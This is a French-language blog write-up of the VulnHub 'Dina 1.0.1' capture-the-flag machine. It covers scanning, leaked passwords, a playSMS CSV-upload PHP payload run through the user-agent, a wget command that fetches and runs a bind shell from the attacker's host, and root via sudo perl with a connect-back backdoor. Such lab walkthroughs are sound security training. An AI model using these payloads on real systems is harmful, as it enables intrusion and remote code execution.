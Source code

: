 ```yaml
---
title: "Solution du CTF Dina: 1.0.1 de VulnHub"
tags: [CTF, VulnHub]
---
```


On continue les CTF de chez VulnHub avec le [Dina 1.0.1](https://www.vulnhub.com/entry/dina-101,200/) datant d'octobre 2017.  

#my secret webapp
-----------------

```plain
Nmap scan report for 192.168.1.48
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Dina
23490/tcp filtered unknown
35921/tcp filtered unknown
55285/tcp filtered unknown
59929/tcp filtered unknown
59990/tcp filtered unknown
60771/tcp filtered unknown
```

Un seul port ouvert, un joli *It works* à la racine mais un *index.html* tout de même présent qui ne nous apporte rien de plus.  

On retrouve certains des dossiers présents dans le *robots.txt* avec un buster ainsi que des nouveaux :  

```plain
http://192.168.1.48/cgi-bin/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/doc/ - HTTP 403 (236 bytes, gzip)
http://192.168.1.48/icons/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.48/nothing/ - HTTP 200 (154 bytes, gzip)
http://192.168.1.48/secure/ - HTTP 200 (452 bytes, gzip) - Directory listing found
http://192.168.1.48/server-status/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.48/tmp/ - HTTP 200 (395 bytes, gzip) - Directory listing found
http://192.168.1.48/uploads/ - HTTP 200 (397 bytes, gzip) - Directory listing found
```

Les dossiers *ange1*, *angel1*, *tmp* et *uploads* sont vides.  

Sous */nothing* la page HTML contient un commentaire avec des mots de passe :  

```html
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
```

Ça devrait s'avérer utile...  

Justement il y a une archive *backup.zip* sous */secure/* qui semble nécessiter un mot de passe :  

```plain
$ unzip backup.zip
Archive:  backup.zip
   skipping: backup-cred.mp3         need PK compat. v5.1 (can do v4.6)

$ 7z x backup.zip

7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

Processing archive: backup.zip

Extracting  backup-cred.mp3
Enter password (will not be echoed) :
```

Et en rentrant le mot de passe *freedom* on obtient un fichier *backup-cred.mp3* qui est en réalité un fichier texte :  

```plain
I am not toooo smart in computer .......dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******

url : /SecreTSMSgatwayLogin
```

./webpwn
--------

On se rend sur l'URL en question qui présente une mire de login. On parvient à si connecter avec *touhid* / *diana*.  

Il s'agit de [playSMS](https://playsms.org/) qui se défini comme un *Free and Open Source SMS Gateway*.  

Un tour rapide de l'application et je tique assez vite sur la fonction d'import de fichiers sur phonebook.  

Vu que c'est une vrai application je préfère regarder [la liste des vulnérabilités connues](https://www.cvedetails.com/vulnerability-list.php?vendor_id=2477&product_id=0&version_id=0&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&month=0&cweid=0&order=1&trc=6&sha=8c0e7e35a77560b7cd811bce1ac0a63b8fcb526f) et, oh que le monde est petit, [un exploit écrit par l'auteur du challenge](https://www.exploit-db.com/exploits/42044/)... c'est un signe :)   

[Une vidéo de l'exploit](https://www.youtube.com/watch?v=KIB9sKQdEwE) est citée en référence et on voit qu'il faut uploader un CSV contenant du code PHP spécifique tout en ayant placé le code PHP à exécuter dans notre user-agent.  

Après avoir essayé l'un des switchers j'ai opté pour [celui-ci](https://chrome.google.com/webstore/detail/user-agent-switcher-for-g/ffhkkpnppgnfaobgihpdblnhmmbodake?utm_source=chrome-app-launcher-info-dialog) qui semble être le même que dans la vidéo.  

Le fichier CSV uploadé à cette forme (il doit respecter les colonnes du phonebook) :  

```plain
"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
```

Ce qui permet alors l'exécution de commandes :  

![Dina VulnHub playSMS interface](https://raw.githubusercontent.com/devl00p/blog/master/images/dina_playsms.png)

Comme pour le précédent challenge j'ai eu recours à [tcp\_pty\_bind.py](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_bind.py) qui s'avère bien pratique.  

Mon user-agent était alors *cd /tmp; wget http://192.168.1.6:8000/tcp\_pty\_bind.py; setsid python tcp\_pty\_bind.py&*  

```plain
$ ncat 192.168.1.48 31337 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.1.48:31337.
www-data@Dina:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

g0tr00t?
--------

Sympa ce petit shell mais un peu limité. Le shell définit pour *www-data* est bien */bin/sh*... mais il n'y a pas de sshd sur la machine... sniff.  

Il y a un utilisateur *touhid* qui pourrait être intéressant. Quelques fichiers dans son dossier Downloads mais ils ont le même hash md5 que ceux sous la racine web :-/   

A tout hasard, peut-on exécuter certaines commandes en tant que root ?   

```plain
www-data@Dina:/tmp$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```

Bingo !  

Plus qu'à récupérer ce fameux [dc.pl](https://pastebin.com/raw/bq6Zbpya) (pas de quoi me rajeunir) et l'exécuter avec sudo.  

```plain
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.1.48.
Ncat: Connection from 192.168.1.48:49435.
--== ConnectBack Backdoor Shell EDITED BY XORON TURK?SH HACKER ==--

--==Systeminfo==--
Linux Dina 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux

--==Userinfo==--
uid=0(root) gid=0(root) groups=0(root)

--==Directory==--
/tmp

--==Shell==--
cd /root
ls
flag.txt
cat flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))

root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....

CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
```

Simple et rapide :p

*Published February 10 2018 at 16:00*
